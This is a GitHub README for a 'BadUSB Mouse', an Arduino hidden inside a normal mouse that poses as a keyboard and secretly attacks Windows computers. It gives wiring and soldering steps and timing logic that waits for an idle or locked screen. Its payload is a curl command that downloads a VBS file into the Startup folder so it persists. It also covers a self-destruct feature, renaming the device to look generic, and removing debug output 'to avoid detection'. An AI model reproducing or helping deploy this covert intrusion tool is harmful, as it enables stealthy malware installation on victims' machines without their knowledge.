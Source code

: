 <h1>BadUSB Mouse Project</h1>

<img src="https://github.com/BhawksGit/BadUSB-Mouse/blob/main/images/titleSlide.png?raw=true" alt="BadUSB Mouse Title Slide">

<h2>Project Overview</h2>
<p>The BadUSB Mouse is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a phototransistor to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Phototransistor</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Wiring How-To</h2>
<p>This section provides detailed, step-by-step instructions on how to integrate the Arduino into the mouse hardware along with a USB hub and a phototransistor. Follow these steps carefully, and refer to the wiring diagram for visual guidance.</p>

<ol>
    <li><strong>Preparing the Mouse Cable:</strong> Remove the USB connector from the mouse motherboard. Cut off the end connector, then strip the four wires (data+, data-, positive, and ground).</li>
    <li><strong>Wiring the Mouse to the USB Hub:</strong> Connect these four wires to the USB_IN line on the USB hub, labeled on the back side of the hub. Ensure the connections match the standard USB layout:
        <ul>
            <li><strong>Red:</strong> Positive wire, carries 5V direct current.</li>
            <li><strong>Black:</strong> Ground wire.</li>
            <li><strong>White:</strong> Positive data (D+).</li>
            <li><strong>Green:</strong> Negative data (D-).</li>
        </ul>
    </li>
    <li><strong>Connecting the Arduino:</strong> Solder four wires to a micro USB solderable plug and connect these wires to another set of USB pins on the USB hub. Be mindful of matching the wire connections correctly. Connect the micro USB plug to the Arduino.</li>
    <li><strong>Reconnecting the Mouse USB:</strong> Solder four additional wires to the bottom pads where the USB connector was originally attached to the mouse, and connect these wires to another set of USB pins on the USB hub. Ensure correct wiring alignment.</li>
    <li><strong>Wiring the Phototransistor:</strong> Solder the positive lead of the phototransistor (the longer one) to a 120-ohm resistor, then connect this lead to pin A2 on the Arduino. Solder the other, shorter side of the phototransistor to ground.</li>
    <li><strong>Positioning the Phototransistor:</strong> Position the photodiode so that its top faces the internal mouse LED to capture lighting changes. Adjust the <code>activeSensorValue</code> based on the brightness of the LED, which may vary between mouse models. This adjustment can be made by adding a serial debug statement to continuously print out the sensor value.</li>
    <li><strong>Securing Components:</strong> Glue the components in place atop the mouse motherboard. Depending on the mouse model, you may need to modify the plastic housing inside the mouse (using clippers or a Dremel) to accommodate the new components.</li>
</ol>

<p>Ensure all connections are secure and double-check for any potential shorts. For more clarity, see the included wiring diagram:</p>
<img src="https://github.com/BhawksGit/BadUSB-Mouse/blob/main/images/wiring.png?raw=true" alt="Wiring Diagram">

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your BadUSB Mouse device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"</pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing BadUSB Mouse code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the BadUSB Mouse less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>BadUSBMouse_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/BadUSB-Mouse">GitHub Repository</a>

<p>Thank you for exploring the BadUSB Mouse project. For more information or to contribute, please visit the GitHub repository linked above.</p>
